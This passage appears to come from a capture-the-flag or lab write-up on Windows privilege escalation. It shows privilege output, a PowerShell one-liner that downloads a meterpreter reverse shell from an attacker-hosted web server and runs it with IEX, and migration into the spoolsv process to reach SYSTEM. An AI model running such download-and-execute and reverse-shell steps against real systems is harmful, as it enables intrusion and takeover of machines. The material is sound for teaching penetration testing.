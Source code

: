 ```
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                 


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

ERROR: Unable to get user claims information.

C:\shared>
```
We can observe we have a high-integrity shell, and we are part of NT AUTHORITY. So after all that ropping, I went the easy way and first called a PowerShell reverse_shell and generate a 32-bit meterpreter shell  (remember, we are running on an x86 process).

We then can host the shell in a Python web server and execute PowerShell in pour shell and download and execute the meterpreter reverse shell with 

```
(new-object system.net.webclient).DownloadString('http://10.8.0.138/dplashell.txt') | IEX
```
Now we got a meterpreter session. 

![](img/2023-07-02-19-40-40.png)

Getting SYSTEM is now trivial. We can just migrate to a SYSTEM process. We can enumerate them with the _ps_ command. I choose the _spoolsv_ process, and we can use the __migrate__ command in Metasploit to accomplish this.

![](img/2023-07-02-19-44-42.png)
